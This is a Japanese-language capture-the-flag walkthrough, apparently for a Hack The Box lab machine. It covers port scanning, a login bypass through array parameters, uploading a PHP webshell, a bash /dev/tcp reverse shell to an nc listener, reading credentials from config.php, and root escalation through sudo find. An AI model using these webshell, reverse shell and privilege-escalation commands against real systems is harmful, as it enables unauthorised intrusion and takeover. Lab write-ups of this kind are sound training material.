


4,# 1.Port Scan 
対象マシンのポートをスキャン
ip=10.129.95.184

`nmap -sV -sC $ip`

スキャンしたHPにアクセスする

http://$ip

Loginページを発見。

login.php.swpを取得

`http://$ip/login/`

ダウンロードしたlogin.php.swpを確認

`strings login.php.swp`

tacコマンドで逆順に表示

片方がarrayなら条件に一致

`strings login.php.swp >> file.txt`

`tac file.txt` 

# 2. Burpsuite

arrayに加工

usernameとpasswordを修正

ログイン成功

HPへアクセス

# 3. Reverse shell

テスト用のphpファイルの作成

`echo "<?php phpinfo(); ?>" > test.php`

test.phpをアップロード

`gobuster dir --url http://$ip/ --wordlist /usr/share/wordlists/dirb/big.txt`

gobusterを使い、アップロード先と推測される_uploadedディレクトリを発見

アップロードしたtest.phpを確認

アップロードしたtest.phpへアクセス
phpinfoが実行されている

webshellを作成し、アップロードする

webshell.phpを確認

アクセスしたが空白

URLを修正

http://$ip/_uploaded/shell.php/?cmd=id

burpusuiteでinterseputを実行

Repeaterに送る

request methodを変更

reverse shellを挿入

`cmd=/bin/bash -c 'bash -i >& /dev/tcp/$ip/12345 0>&1'`

URLが理解できるようにエンコード

# 4.Web Connect

ローカルサーバを立てる

`sudo nc -lnvp 12345` 

reverseshellを実行

user.txtを発見したが、
管理者権限が足りない

`cd /home/john`

`cat user.txt`

webの場合/var/www/htmlにユーザ情報がある場合が多い
確認した結果、ユーザ情報を発見

`locate config.php`

`cd  /var/www/html/login/`

`cat config.php`

# 5.Flag get

adminユーザでssh接続を試すが拒否される

試しにjohnユーザで実行

ログイン成功

ユーザ情報を確認
user/bin/findをroot権限で実行できる事を確認

webサイト「GTFOBins」で検索した結果
findからrootになるコマンドを発見

コマンドを実行。root権限を取得
root.txtとuser.txtを取得

`sudo find . -exec /bin/sh \; -quit`

`pwd`

`locate root.txt`

`cd /root`

`cat root.txt`

